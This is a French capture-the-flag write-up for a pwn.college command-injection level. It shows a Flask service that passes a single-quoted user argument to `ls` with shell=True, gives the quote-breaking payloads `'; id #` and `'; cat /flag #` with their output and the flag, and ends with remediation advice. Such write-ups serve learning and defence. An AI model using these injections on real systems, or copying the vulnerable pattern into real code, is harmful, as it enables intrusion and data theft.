


Description

```
ls: cannot access '': No such file or directory
uid=0(root) gid=1000(hacker) groups=1000(hacker)
```

On utilise un # pour commenter le reste car apres notre commande malveillant, il reste encore un ' donc si on ne commente pas ca on aura un erreur de sysntax 

LEcture du flag 

```
'; cat /flag #
```

flag 

```
pwn.college{AOA1RSibFIC2s5VvDrXDw8dd90M.QX2YTN2wSM5EjN3EzW}
```

---

> ****Informations Générales****
> - **Plateforme :** pwn.college
> - **Catégorie :** Command Injection (Contournement de guillemets)
> - **Objectif :** S'échapper d'une chaîne délimitée par des guillemets simples (`'`) pour exécuter des commandes arbitraires.

---

## 🎯 1. Description du Challenge

Dans ce niveau, le développeur tente de sécuriser l'application en encadrant l'argument utilisateur avec des guillemets simples (`'`). 

En théorie, le shell traite tout ce qui se trouve entre des guillemets simples comme du texte brut, neutralisant ainsi les caractères spéciaux comme `;`, `$`, etc. Cependant, si l'attaquant parvient à fermer prématurément ces guillemets, il peut reprendre le contrôle de la ligne de commande.

---

## 🔍 2. Analyse du Code Source

```python
#!/usr/bin/exec-suid -- /usr/bin/python3 -I

import subprocess
import flask
import os

app = flask.Flask(__name__)

@app.route("/test", methods=["GET"])
def challenge():
    arg = flask.request.args.get("top-path", "/challenge")
    # ⚠️ L'argument est enfermé dans des guillemets simples
    command = f"ls -l '{arg}'"

    print(f"DEBUG: {command=}")
    result = subprocess.run(
        command,
        shell=True,            # Interpréteur shell toujours actif
        stdout=subprocess.PIPE,
        stderr=subprocess.STDOUT,
        encoding="latin",
    ).stdout

    return f"""
        <html><body>
        Welcome to the dirlister service! Please choose a directory to list the files of:
        <form action="/test"><input type=text name=top-path><input type=submit value=Submit></form>
        <hr>
        <b>Output of {command}:</b><br>
        <pre>{result}</pre>
        </body></html>
        """

os.setuid(os.geteuid())
os.environ["PATH"] = "/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = "challenge.localhost:80"
app.run("challenge.localhost", 80)
````

### Logique de l'Exploitation

1. **Le piège du code :** La commande générée ressemble à `ls -l '<INPUT>'`.
    
          
2. **Le problème de syntaxe résiduel :** Si tu injectes un guillemet simple pour fermer la chaîne, la commande finale ressemblera à :
    
    `ls -l '<votre_payload>'` -> ce qui laisse un guillemet fermant `'` surnuméraire à la fin, provoquant une **erreur de syntaxe** du shell (`unexpected EOF while looking for matching` ''`).
    
          
3. **La solution (Le commentaire `#`) :** Pour éviter l'erreur de syntaxe causée par le guillemet fermant rajouté par le code (`'`), on utilise le caractère `#` pour **commenter le reste de la ligne** de commande.
    
          

##  3. Exploitation

### Étape 1 : Test d'injection avec fermeture de guillemet et commentaire

On envoie le payload suivant dans le paramètre `top-path` :

```text
'; id #
```

La commande exécutée par le serveur devient :
  
```bash
ls -l ''; id #'
```

_(Le `#` transforme le dernier guillemet simple généré par le code en simple commentaire, évitant l'erreur de syntaxe)._

  

> ****Résultat :** Le serveur exécute `id` et confirme les privilèges `uid=0(root)`.**
> 
>   

### Étape 2 : Lecture du flag

On applique la même structure pour lire le fichier `/flag` :

```text
'; cat /flag #
```

> ****Flag obtenu :****
> 
> `pwn.college{AOA1RSibFIC2s5VvDrXDw8dd90M.QX2YTN2wSM5EjN3EzW}`
> 
>   



## 🛠️ 4. Remédiation

Protéger une commande en entourant simplement l'entrée utilisateur de guillemets est insuffisant si l'entrée n'est pas échappée correctement (par exemple en remplaçant les guillemets simples par `'\''`). L'utilisation de `shell=False` avec une liste d'arguments reste la seule vraie protection robuste.
